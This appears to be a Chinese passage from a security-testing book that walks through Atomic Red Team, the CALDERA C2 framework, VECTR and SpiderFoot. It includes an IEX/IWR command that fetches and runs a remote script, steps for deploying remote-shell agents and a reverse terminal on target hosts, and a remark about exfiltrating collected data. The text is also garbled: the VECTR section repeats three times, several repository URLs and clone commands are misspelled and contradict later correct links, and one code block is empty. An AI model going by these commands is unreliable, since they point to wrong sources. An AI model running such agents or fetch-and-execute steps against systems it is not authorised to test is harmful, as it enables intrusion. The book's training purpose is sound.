在我们离开这一章之前，我想介绍的最后一个主题是 MITRE Engage。如果你熟悉 MITRE Shield 知识库，那么 Engage 就是它的替代者。Engage 是一个用于规划攻击者交互、拒绝和欺骗的框架。目前它处于 Beta 测试阶段，但仍然非常有用。它的布局与 MITRE ATT&CK 矩阵非常相似。



### Engage 矩阵 - [`engage.mitre.org/matrix/`](https://engage.mitre.org/matrix/)

Engage 是红队和蓝队极佳的教学和规划工具。花几分钟查看一下吧！

## 接下来做什么？

对 ATT&CK 框架有一段很长的介绍，但在继续之前，至少有一个基础的了解是非常重要的。我强烈建议读者花时间探索该矩阵。其中有很多有用信息。这些都非常有趣，但我们如何从攻性安全的角度使用它呢？接下来的几章将关于如何在实战测试中使用矩阵。俗所谓的“武器化”矩阵，在实际的红队行动或安全审计类测试中使用它。我们将通过涵盖 Atomic Red Team 和 Caldera 来实现。

这些不是使用 ATT&CK 框架的唯一方法，也不是测试的唯一工具。还有许多有趣的选项和工具可用。我强烈建议读者查看 Threat Hunter Playbook²、OSSEM³ 和 The Mordor Project⁴。

## 资源与参考文献

1. > Lockheed Martin, The Cyber Kill Chain - [`www.lockheedmartin.com/en-us/capabilities/cyber/cyber-kill-chain.html`](https://www.lockheedmartin.com/en-us/capabilities/cyber/cyber-kill-chain.html)
2. > Threat Hunter Playbook - [`threathunterplaybook.com/introduction.html`](https://threathunterplaybook.com/introduction.html)
3. > Open-Source Security Events Metadata - [`github.com/OTRF/OSSEM`](https://github.com/OTRF/OSSEM)
4. > The Mordor Project/ Security Datasets - [`github.com/OTRF/mordor`](https://github.com/OTRF/mordor)
5. > Mapping ATT&CK Data Sources to Security Events via OSSEM - [`github.com/OTRF/OSSEM`](https://github.com/OTRF/OSSEM)
6. > Threat Hunter Playbook - [`threathunterplaybook.com/introduction.html`](https://threathunterplaybook.com/introduction.html)

# 第 5 章：Atomic Red Team

工具作者：Red Canary
工具网站：[`atomicreteam.io/`](https://atomicreteam.io/)
工具 GitHub: [`github.com/redcanaryco/attack-team`](https://github.com/redcanaryco/attack-team)

Atomic Red Team 库是一个安全测试集合，可以测试 MITRE ATT&CK 框架中的技术。该集合由标记和 yaml 文件组成。我们将首先介绍手动方法。接下来将介绍一个使用 PowerShell 的自动化版本名为 `Invoke-Atomic`。

## Atomic Red Team - 安装与基础用法

简单来说，“Atomic Red Team”基本上只是一系列运行安全工具的命令行集合。你并不真的需要安装框架就可以使用它，只需从 GitHub 站点获取你需要的文本文件，但“安装”它会将所有文本文件整齐地放在文件夹中方便引用。

> ➢ `git clone https://github.com/redcanaryco/atomic-team.git`
> ➢ `cd atomic-team/atomics`



仔细观察目录结构。注意目录名称实际上是 MITRE ATT&CK 编号。每个目录内部有两个文本文件：一个标记文件和一个 yaml 文件，它们包含了对编号攻击技术的简要描述以及你可以运行的多个命令行工具。使用 Atomic Red Team 非常简单，只需选择一个 MITRE ATT&CK 技术编号并进入该目录。然后打开技术文件。最后，选择你要在测试中使用的命令并手动运行它们。例如，让我们来看技术 `T1033` —— “系统所有者/用户发现”。

MITRE 技术页面：[`attack.mitre.org/techniques/T1033/`](https://attack.mitre.org/techniques/T1033/)

> ➢ `cd T1033`

现在查看或打开文件。



只需向下滚动到“Attack Commands”部分：



然后在你的目标 Windows 系统上使用你想要的任何命令。


某些命令调用外部工具运行。例如这个运行 PowerSploit 的 PowerShell 命令：

```

```


值得注意的是，`PowerShellMafia` 开发的 `PowerSploit` 不再是一个活跃的工具，已经多年未更新。然而，它仍然被某些攻击者用于尝试侦察（Recon）、权限提升（Privilege escalation）和持久化（Persistence）。

## Atomic Red Team 测试索引

在进入 Atomic Red Team 自动化测试之前，我想简单介绍一下它们的索引（Indexes）。他们的 GitHub 页面上列出了完整的测试列表，并按技术对 Windows 和 Linux 进行了排序。这与复制到你硬盘上的文件完全相同，但是 HTML 格式。


*   > Windows 索引¹
*   > Linux 索引²

### 示例：


这两个索引也提供了 CSV 版本可供下载：


[`github.com/redcanaryco/atomic-red-team/tree/master/atomics/Indexes/Indexes-CSV`](https://github.com/redcanaryco/atomic-red-team/tree/master/atomics/Indexes/Indexes-CSV)

### Atomic Red Team 的“Invoke-Atomic Test”


工具 GitHub：[`github.com/redcanaryco/invoke-atomicredteam`](https://github.com/redcanaryco/invoke-atomicredteam)

工具 Wiki：[`github.com/redcanaryco/invoke-atomicredteam/wiki`](https://github.com/redcanaryco/invoke-atomicredteam/wiki)

“Invoke-Atomic” RedTeam 允许你使用 PowerShell 模块实际测试 MITRE ATT&CK™ 框架的 TTP。安全理论和技术查询表虽然很好，但让我们动手实践吧。Atomic Red Team 的 “Invoke-Atomic” 正是让我们能够做到这一点。通过 Atomic，我们可以根据 ATT&CK 框架中的编号获取技术（Techniques）并实际使用它们。这对于训练和测试检测系统非常完美。

### 安装

遵循 Atomic Red Team 的安装说明：

> ➢  [`github.com/redcanaryco/invoke-atomicredteam/wiki/Installing-Atomic-Red-Team`](https://github.com/redcanaryco/invoke-atomicredteam/wiki/Installing-Atomic-Red-Team)

在 PowerShell 中复制并运行“带有 Atomics 文件夹的安装”命令：

> ➢  `IEX (IWR 'https://raw.githubusercontent.com/redcanaryco/invoke-atomicredteam/master/install-atomicredteam.ps1' -UseBasicParsing);`

> ➢  `Install-AtomicRedTeam -getAtomics`

### Invoke-Atomic 使用

使用 Invoke-Atomic 非常简单：

> ➢  要查看简单的命令详情列表，输入 `Invoke-AtomicTest T1119 -ShowdetailsBrief`


> ➢  要列出将运行的代码，输入 `Invoke-AtomicTest T1119 -Showdetails`

代码布局非常出色，易于分段阅读。这包括测试的设置、实际的攻击代码和清理命令。让我们快速查看测试 #4，“使用命令提示符导出侦察信息”。只需浏览代码，直到看到“Test Number 4（测试编号）”，然后是“Attack Commands（攻击命令）”。


这些是测试期间用于获取数据的实际 DOS 命令。现在我们确切知道将发生什么，可以运行测试了。

> ➢  运行命令：`Invoke-AtomicTest T1119`


测试完成后，所有数据都存储在用户的 Temp（临时）目录中。


你可以从此位置查看或（在实际测试中）外泄任何数据。


也就是说，在运行清理命令之前。


在每个测试结束时，都有“清理命令（Cleanup Commands）”。清理会系统中移除或删除测试的输出内容或证据。这使得观察测试期间的情况变得困难得多，但你可以查看攻击代码、复制它，然后单独运行。我喜欢将攻击代码复制到记事本文件中，然后将每条攻击命令粘贴回 PowerShell 并逐一运行，以查看它的作用。

### 自定义 Invoke-Atomic 模块

Invoke-Atomic 的秘密力量在于你可以构建自己的自定义模块。Red Canary 网站上有一段很棒的视频演示了 Invoke-Atomic 的许多功能，包括使用自定义模块的完整流程：

> ➢  [`redcanary.com/blog/comparing-red-team-platforms/`](https://redcanary.com/blog/comparing-red-team-platforms/)

### 远程使用与总结

你可以轻松使用 Invoke-Atomic，包括远程使用，在任何你已经可以使用 PowerShell 的实例中。红队可以结合任何 C2 使用它来测试蓝队的检测能力。它还可以用于训练安全分析师和 SOC（安全运营中心）。因为它是用 PowerShell 编写的且完全可定制，其可能性仅限于想象力。

## 资源与参考文献

> ➢  ¹ 按 ATT&CK 战术与技术排序的 Windows Atomic 测试 - [`github.com/redcanaryco/atomic-red-team/blob/master/atomics/Indexes/windows.md`](https://github.com/redcanaryco/atomic-red-team/blob/master/atomics/Indexes/windows.md)

> ➢  ² 按战术与技术排序的 Linux 测试 - [`github.com/redcanaryco/atomic-red-team/blob/master/atomics/Indexes/linux.md`](https://github.com/redcanaryco/atomic-red-team/blob/master/atomics/Indexes/linux.md)

# 第 6 章

## CALDERA 安全框架

作者：MITRE

工具 GitHub：[`github.com/mitre/caldera`](https://github.com/mitre/caldera)

工具文档：[`caldera.readthedocs.io/en/latest/Installing-CALDERA.html`](https://caldera.readthedocs.io/en/latest/Installing-CALDERA.html)


CALDERA 是一个安全框架，允许在“实战范围”中运行红队和蓝队操作。它本质上是一个命令控制（C2）平台，允许在本地或多个远程目标上运行手动或自动测试。主界面像一个 C2，你创建代理（agents）——基本上远程 shell。有了代理，你就可以针对目标运行“对手（adversaries）”或技术集。测试可以手动或自动运行。完成后，你可以生成多种类型的报告。CALDERA 甚至包含一种游戏模式，让红蓝队对抗并根据攻击成功或检测率进行评分。

## CALDERA 安装

查看 CALDERA 文档获取最新的安装说明 [`caldera.readthedocs.io/en/latest/Installing-CALDERA.html`](https://caldera.readthedocs.io/en/latest/Installing-CALDERA.html)

本文编写时的说明：

> ➢  `git clone https://github.com/mitre/caldera.git --recursive --branch x.x.x`

（最新分支版本可在 GitHub 右侧的“releases”中找到）

> ➢  `sudo apt install -y python3-pip`

> ➢  `cd caldera`

> ➢  `pip3 install -r requirements.txt`

安装 GoLang

> ➢  `sudo apt install golang`

> ➢  `export PATH=$PATH:/usr/local/go/bin`

> ➢  `go version`

启动服务器

> ➢  `python3 server.py --insecure`

> ➢  `访问 http://localhost:8888`

> ➢  `使用 red/ admin 登录`

## CALDERA - 入门

菜单分为不同的类别。“活动（Campaigns）”类别是你实际用于创建和交互远程系统的类别。你可以在高级部分更改许多选项，但让我们先通过查看“插件（Plugins）”部分开始我们的之旅。


你可以点击“Fieldmanual”（现场手册）查看 CALDERA 使用指南。我强烈建议读者至少探索 `Terminology`（术语）和 `Plugin`（插件）部分。例如，你可以轻松利用 CALDERA 的人工智能，并使用 `Mock` 插件在带有模拟目标的模拟模式下运行 CALDERA。它自带了 2 个模拟目标，但你可以通过修改 CALDERA 的配置文件轻松地增加数量。甚至还有一个 `Human`（人类）插件，这是一种可以配置在目标系统上运行正常任务的人工人类，用于在测试期间混淆红队操作。

## CALDERA - 基础红队对抗

CALDERA 有了一套完整的分步流程可以遵循 - [`localhost:8888/docs/Getting-started.html`](http://localhost:8888/docs/Getting-started.html)，所以我将快速介绍一下。

1. 转到 `Agents`（代理），`Deploy an Agent`（部署代理），然后选择 `54ndc47 - Sandcat`
2. 然后选择 `Target Platform`（目标平台）——只需点击 `Windows`


3. 将 `app.contact.http` 修改为你的 Kali IP


当你更改 IP 地址时，代码框中的地址会自动更新。

4. 复制并在你的 Windows Server 目标管理员权限的 PowerShell 提示符中运行该代码。


几秒钟后，我们就有一个远程代理！


你可以点击 `Agent`（代理）名称查看大量关于目标的详细信息。


你也可以从此界面杀掉代理。

## CALDERA - 攻击者配置文件

5. 接下来，我们需要选择一个 `Adversary Profile`（攻击者配置），基本上就是我们打算在目标上运行的攻击类型。
   * 点击 `Select a Profile`（选择配置）框中的向下箭头
   * 点击 `Discovery`（发现）

这显示了将运行的所有测试。`Executors`（执行器）显示了哪些测试兼容哪些操作系统。


列出的所有 `Abilities`（能力）实际上都是 MITRE ATT@CK 技术。你可以通过点击名称查看任何能力的 ATT@CK 编号和更多信息。


## CALDERA - 启动操作

介绍完毕，让我们开始一个操作吧！

6. 在主 Campaigns Menu（战役菜单）上，点击 `Operations`（操作）。
7. 点击 `Create Operation`（创建操作）。
8. 输入操作名称 - 使用 `Windows Security Test` 即可。
9. 接下来，从 Adversary（攻击者）下拉菜单中选择 `Discovery`。
10. 然后，点击 `Start`（开始）。


CALDERA 将立即开始运行你选择的安全性测试。每个测试的状态会在运行时列出。常见的状态有：`collect`（正在收集）表示测试正在运行，`success`（成功）表示测试运行成功，`failed`（失败）表示未成功。


你可以点击 `View Command`（查看命令）查看实际运行的命令。


或者点击 `View Output`（查看输出）查看测试结果。


这些图片显示了 `Identify Users`（识别用户）能力的命令与输出。

通过顶部的控制按钮，你可以 `Pause`（暂停）、`Stop`（停止）或 `Resume`（继续）测试。你还可以将测试从自动模式切换到手动模式（Manual）。最后，你可以将通信流从纯文本更改为几种不同的形式。如下所示：


当你停止或完成测试时，点击 `Download`（下载）报告。


就这样！只需几次点击，你就能建立整支红队！

## CALDERA - 自动化蓝队

记住，CALDERA 既是红队也是蓝队工具。你也可以运行蓝队操作！只需注意一点 - 在编写时，最新版本仍处于 Alpha 阶段，且在 Kali 中运行蓝队代理会出现编译错误。我确定这很快会被修复，它看起来仍然可以运行。

在红队测试仍在运行时，打开另一个浏览器窗口。
* 在新浏览器窗口中，访问 `localhost:8888`
* 在新浏览器窗口中，注销红队账号
* 以 `Blue` / `admin` 身份登录

现在我们可以部署蓝队代理。快速看一眼菜单布局。它与我们刚刚用于红队的界面非常相似。你部署一个代理，然后选择你想要的防御性操作。然后启动操作。

1. 部署蓝队代理
   * 点击 `Agents`，`Deploy an Agent`，选择代理，然后选择 `54ndc47` 和 `Windows`。
   * 将 IP 地址更改为你的 Kali 系统


* 在 PowerShell 窗口中复制并运行蓝队代理
* 几秒钟后我们就有了蓝队代理

蓝队菜单基本上是红队的镜像，但包含的是防御战术（Defensive Tactics）。点击 `Abilities` 查看蓝队能力列表。


启动蓝队操作完全相同。
2. 在 Campaign Menu 的 `Operations` 中，点击 `Create Operation`。
3. 输入操作名称
4. 点击 `Adversary` 旁边的向下箭头并选择 `Incident Responder`。
5. 然后点击 `Start`。


一系列自动化蓝队测试将开始运行。

## CALDERA - 游戏板

GameBoard 允许你运行红队对蓝队的对抗，CALDERA 使用计分板记录积分。当红蓝队账号均激活且都在运行操作时，只需点击红队菜单中的 `Gameboard`。如下所示：


看起来蓝队的表现非常好，这对我们的红队是有好处的！这里没有个人偏见，最终红队和蓝队会聚在一起讨论哪些是有效的，哪些无效，所以最终双方都是赢家！更重要的是公司将从安全提高中受益。

# Manus

在继续之前，我想快速谈一下 `Manx`。`Manx` 是一个非常好的支持 ATT@CK 的反向终端。你可以用它与 CALDERA 进行手动交互。
* 从 `Agent` 菜单创建一个 `Manx` 代理
* 将服务器 IP 地址更改为你的 Kali 系统的 IP 地址


* 在你的目标上运行它。注意在 `Contact` 下它显示的是 `TCP` 而不是 `HTTP`


* 接下来，点击 `Plugin` 菜单上的 `Manx`
* 从 `Session` 下拉菜单选择你的活动会话

你拥有完全交互式的远程终端。你还可以从实时下拉菜单中选择并使用战术、技术和过程。


再次，我在最新的 Alpha 版本中运行 `Manx` 时遇到了一些问题，但当你读到这里时可能已经修复了。

## CALDERA - 训练

CALDERA 内置了一套完整的用户与蓝队攻防赛（CTF）类型训练。
* 点击 `Plugins` 中的 `Training`
* 选择 `User` 或 `Blue Team`


然后按照各个章节进行，在过程中完成每一步。

## Caldera 总结

这只是对 CALDERA 的一个非常基础的介绍。希望我证明了它是公司一个强大且实用的安全测试和训练平台。有很多我没有介绍的设置和功能——强烈建议读者查看该工具的完整文档。

# 第 7 章

## VECTR

* 工具网站：[`vectr.io/`](https://vectr.io/)
* 工具 GitHub：[`github.com/securityriskadors/vectr`](https://github.com/securityriskadors/vectr)
* 工具文档：[`docs.vectr.io/`](https://docs.vectr.io/)

在离开本节之前，我想简要提到另一个工具。如果能有一个蓝队数据管理类型的程序来帮助管理和跟踪正在进行的红蓝队对抗，那该有多好？一个能够提供从开始到结束深度视图的程序，以便进行研究和回顾。这就是 Security Risk Advisors 开发的 Vectr。Vectr 是一种蓝队工具，允许你可视化地跟踪并报告针对公司网络的红蓝对抗 ATT@CK 或杀伤链测试的进度。


你可以通过 VECTR 网站上的“Ubuntu”安装指南在 Kali 上安装 `VECTR`。为了方便使用，SANS Slingshot C2 Matrix Edition VM 已预装了 `VECTR` 并可开箱可用。“视频教程”（How-to-Videos）部分将引导你了解设置和使用 `VECTR` 需要的所有知识：[`docs.vectr.io/How-To-Videos/`](https://docs.vectr.io/How-To-Videos/)

## VECTR - 安装

完整的安装说明位于工具网站。请检查并遵循这些说明以获取最新信息 - [`docs.vectr.io/Installation/`](https://docs.vectr.io/Installation/)

> ➢ `sudo apt install docker`

> ➢ `sudo apt install docker-compose`

> ➢ `sudo mkdir -p /opt/vectr/`

> ➢ `cd /opt/vectr/`

下载最新版本的 `sra-vectr-runtime`（发布时版本为 8.1.3）

> ➢ `sudo wget https://github.com/SecurityRiskAdvisors/VECTR/releases/download/ce-8.1.3/sra-vectr-runtime-8.1.3-ce.zip -P /opt/vectr`

> ➢ `sudo unzip sra-vectr-runtime-8.1.3-ce.zip`

> ➢ `sudo nano .env`

`.env` 文件中有几处可以修改的设置，但你至少需要将主机名替换为你系统的主机名。

将“kali”输入为 `VECTR_HOSTNAME`：


> ➢ `sudo docker-compose up -d`

Vectr 将开始安装并下载大量的支持文件和所需的依赖项。安装完成后并运行，打开浏览器。

> ➢ 导航到 “https://kali:8081”

> ➢ 登录用户 - “admin”，密码 - “11_ThisIsTheFirstPassword_11”


选择提供的组织类型（Organization types）之一或创建你自己的。所有预有的类型都包含你可以查看的演示数据。


> ➢ 点击 “Red Canary”

然后选择紫队（Purple team）演示数据库，或使用“+”符号创建一个数据库：


演示数据库（Demo Databases）将提供你可以审查的示例数据。


列出了几个已完成的紫队评估（Purple Team assessments）。让我们看看最近完成的一个项 - “Enterprise Purple - 2019 Q1”。我们只需点击评估名称即可。

这样做将我们带活动仪表板（Campaign Dashboard）：


在这里我们可以看到整个安全测试的概述。这包括测试名称、进度和结果。右侧是“操作”（Action）栏，允许我们生成报告、编辑、克隆或删除活动。


让我们仔细查看一个已完成的安全测试。为了换换口味，让我们看看“物理访问”（Physical Access）测试。点击测试名称将弹出一个信息屏幕，如下所示。


你可以点击图形化显示中的单个项目，或点击下方表格中的对应名称。让我们看看 USB Rubber Ducky 测试。


在此屏幕中，我们可以看到红队物理尝试插入了一个 USB Rubber Ducky 设备 - 一种可以通过 USB 端口在计算机上运行自动化攻击的 USB 攻击设备。你可以在红队详情中看到攻击描述以及他们尝试用于运行有效负载（payload）的命令。在蓝队详情（Blue Team Details）中，我们看到检测工具 `Ketsui` 检测到了攻击，触发了警报并成功阻止了它！

这引出了另一点，Vectr 中的几乎每个项目都可以编辑和修改以适应你的目标环境。显示输出的几乎每个部分都有“配置”（Configure）齿轮图标。例如，如果你点击防御（Defenses）框中的配置图标，你可以从列表中选择你的防御系统，或添加你自己的自定义项目。

 （注：原文中缺少图像引用，但流程暗示如此）

你可以通过 VECTR 网站上的“Ubuntu”安装指南在 Kali 上安装 `VECTR`。为了方便使用，SANS Slingshot C2 Matrix Edition VM 已预装了 `VECTR` 并可开箱可用。“视频教程”（How-to-Videos）部分将引导你了解设置和使用 `VECTR` 需要的所有知识：[`docs.vectr.io/How-To-Videos/`](https://docs.vectr.io/How-To-Videos/)

## VECTR - 安装

完整的安装说明位于工具网站。请检查并遵循这些说明以获取最新信息 - [`docs.vectr.io/Installation/`](https://docs.vectr.io/Installation/)

> ➢ `sudo apt install docker`

> ➢ `sudo apt install docker-compose`

> ➢ `sudo mkdir -p /opt/vectr/`

> ➢ `cd /opt/vectr/`

下载最新版本的 `sra-vectr-runtime`（发布时版本为 8.1.3）

> ➢ `sudo wget https://github.com/SecurityRiskAdvisors/VECTR/releases/download/ce-8.1.3/sra-vectr-runtime-8.1.3-ce.zip -P /opt/vectr`

> ➢ `sudo unzip sra-vectr-runtime-8.1.3-ce.zip`

> ➢ `sudo nano .env`

`.env` 文件中有几处可以修改的设置，但你至少需要将主机名替换为你系统的主机名。

将“kali”输入为 `VECTR_HOSTNAME`：


> ➢ `sudo docker-compose up -d`

Vectr 将开始安装并下载大量的支持文件和所需的依赖项。安装完成后并运行，打开浏览器。

> ➢ 导航到 “https://kali:8081”

> ➢ 登录用户 - “admin”，密码 - “11_ThisIsTheFirstPassword_11”


选择提供的组织类型（Organization types）之一或创建你自己的。所有预有的类型都包含你可以查看的演示数据。


> ➢ 点击 “Red Canary”

然后选择紫队（Purple team）演示数据库，或使用“+”符号创建一个数据库：


演示数据库（Demo Databases）将提供你可以审查的示例数据。


列出了几个已完成的紫队评估（Purple Team assessments）。让我们看看最近完成的一个项 - “Enterprise Purple - 2019 Q1”。我们只需点击评估名称即可。

这样做将我们带活动仪表板（Campaign Dashboard）：


在这里我们可以看到整个安全测试的概述。这包括测试名称、进度和结果。右侧是“操作”（Action）栏，允许我们生成报告、编辑、克隆或删除活动。


让我们仔细查看一个已完成的安全测试。为了换换口味，让我们看看“物理访问”（Physical Access）测试。点击测试名称将弹出一个信息屏幕，如下所示。


你可以点击图形化显示中的单个项目，或点击下方表格中的对应名称。让我们看看 USB Rubber Ducky 测试。


在此屏幕中，我们可以看到红队物理尝试插入了一个 USB Rubber Ducky 设备 - 一种可以通过 USB 端口在计算机上运行自动化攻击的 USB 攻击设备。你可以在红队详情中看到攻击描述以及他们尝试用于运行有效负载（payload）的命令。在蓝队详情（Blue Team Details）中，我们看到检测工具 `Ketsui` 检测到了攻击，触发了警报并成功阻止了它！

这引出了另一点，Vectr 中的几乎每个项目都可以编辑和修改以适应你的目标环境。显示输出的几乎每个部分都有“配置”（Configure）齿轮图标。例如，如果你点击防御（Defenses）框中的配置图标，你可以从列表中选择你的防御系统，或添加你自己的自定义项目。


你可以通过 VECTR 网站上的“Ubuntu”安装指南在 Kali 上安装 `VECTR`。为了方便使用，SANS Slingshot C2 Matrix Edition VM 已预装了 `VECTR` 并可开箱可用。“视频教程”（How-to-Videos）部分将引导你了解设置和使用 `VECTR` 需要的所有知识：[`docs.vectr.io/How-To-Videos/`](https://docs.vectr.io/How-To-Videos/)

## VECTR - 安装

完整的安装说明位于工具网站。请检查并遵循这些说明以获取最新信息 - [`docs.vectr.io/Installation/`](https://docs.vectr.io/Installation/)

> ➢ `sudo apt install docker`

> ➢ `sudo apt install docker-compose`

> ➢ `sudo mkdir -p /opt/vectr/`

> ➢ `cd /opt/vectr/`

下载最新版本的 `sra-vectr-runtime`（发布时版本为 8.1.3）

> ➢ `sudo wget https://github.com/SecurityRiskAdvisors/VECTR/releases/download/ce-8.1.3/sra-vectr-runtime-8.1.3-ce.zip -P /opt/vectr`

> ➢ `sudo unzip sra-vectr-runtime-8.1.3-ce.zip`

> ➢ `sudo nano .env`

`.env` 文件中有几处可以修改的设置，但你至少需要将主机名替换为你系统的主机名。

将“kali”输入为 `VECTR_HOSTNAME`：


> ➢ `sudo docker-compose up -d`

Vectr 将开始安装并下载大量的支持文件和所需的依赖项。安装完成后并运行，打开浏览器。

> ➢ 导航到 “https://kali:8081”

> ➢ 登录用户 - “admin”，密码 - “11_ThisIsTheFirstPassword_11”


选择提供的组织类型（Organization types）之一或创建你自己的。所有预有的类型都包含你可以查看的演示数据。


> ➢ 点击 “Red Canary”

然后选择紫队（Purple team）演示数据库，或使用“+”符号创建一个数据库：


演示数据库（Demo Databases）将提供你可以审查的示例数据。


列出了几个已完成的紫队评估（Purple Team assessments）。让我们看看最近完成的一个项 - “Enterprise Purple - 2019 Q1”。我们只需点击评估名称即可。

这样做将我们带活动仪表板（Campaign Dashboard）：


在这里我们可以看到整个安全测试的概述。这包括测试名称、进度和结果。右侧是“操作”（Action）栏，允许我们生成报告、编辑、克隆或删除活动。


让我们仔细查看一个已完成的安全测试。为了换换口味，让我们看看“物理访问”（Physical Access）测试。点击测试名称将弹出一个信息屏幕，如下所示。


你可以点击图形化显示中的单个项目，或点击下方表格中的对应名称。让我们看看 USB Rubber Ducky 测试。


在此屏幕中，我们可以看到红队物理尝试插入了一个 USB Rubber Ducky 设备 - 一种可以通过 USB 端口在计算机上运行自动化攻击的 USB 攻击设备。你可以在红队详情中看到攻击描述以及他们尝试用于运行有效负载（payload）的命令。在蓝队详情（Blue Team Details）中，我们看到检测工具 `Ketsui` 检测到了攻击，触发了警报并成功阻止了它！

这引出了另一点，Vectr 中的几乎每个项目都可以编辑和修改以适应你的目标环境。显示输出的几乎每个部分都有“配置”（Configure）齿轮图标。例如，如果你点击防御（Defenses）框中的配置图标，你可以从列表中选择你的防御系统，或添加你自己的自定义项目。


## 第三部分 - 侦察与扫描

## 第 8 章

### 使用 SpiderFoot 进行基础 OSINT

### SpiderFoot 简介

工具网站：[`www.spiderfoot.net/`](https://www.spiderfoot.net/)

目标信息收集、侦察和扫描是每次行动的早期步骤。SpiderFoot 是一款快速且易于使用的开源情报（OSINT）和侦察工具。它可以收集多个...目标的 OSINT 信息，包括域名和 IP 地址、人名、用户名、电子邮箱和电话号码。它不仅可以直接扫描网站，还可以检查外部侦察和数据智能服务。它是渗透人员和红队的强大工具，也适用于威胁情报、资产发现和攻击面监控。


SpiderFoot 有多个免费和付费版本。如果你访问 SpiderFoot 网站，可以注册账户并通过其网络界面运行扫描。不过他们的免费在线扫描器仅供爱好者使用，每月限 3 次。专业机构可能更倾向于包含更强大功能的付费版本。Kali Linux 预装了一个特殊的免费版本。

### 启动 SpiderFoot

在 Kali 上使用 SpiderFoot 涉及两个步骤：启动 SpiderFoot 服务，然后使用 SpiderFoot 命令行界面 (CLI) 或网络用户界面 (Web-UI) 执行搜索。

启动服务器很简单：

```
spiderfoot -l 127.0.0.1:5001
```

你现在可以通过命令行界面或 Web UI 运行 SpiderFoot。我将向你如何启动 `spiderfoot-cli`，但本文将使用网络界面。

### CLI：

> ➢ 输入 `spiderfoot-cli`

你将看到 SpiderFoot CLI：


你可以输入“help”来获取更多信息，尽管大多数用户更倾向于使用我们将介绍的图形化 Web 界面。

### Web UI

> ➢  打开浏览器

> ➢  访问“http://127.0.0.1:5001/”

你将看到 SpiderFoot 仪表板：


顶部是主菜单按钮：

> ➢  New Scan（新扫描）– 开始新扫描

> ➢  Scans（扫描）– 列出所有扫描

> ➢  Settings（设置）– 允许更改 SpiderFoot 的设置，包括为任何扫描服务添加 API 密钥。

SpiderFoot 使用大量站点进行信息收集。其中一些站点要求拥有注册账户和 API 密钥。你可以通过 `Settings` 菜单为这些站点设置配置选项或添加所需的 API 密钥。如果不提供密钥，SpiderFoot 将直接跳过这些测试。不过，使用的注册服务越多，关于目标的回溯的信息就越深。


当你打开 SpiderFoot Web UI 时，视图默认是“Scans”视图。这提供了所有正在处理或已完成的扫描历史。你可以点击扫描名称前的复选框，然后使用导出按钮和导出类型以 CSV、GEXF 或 JSON 格式下载你的报告。


点击扫描名称以查看扫描期间收集的所有数据。

### 开始新扫描

让我们来演示一下第一次扫描。

> ➢  点击“New Scan”按钮

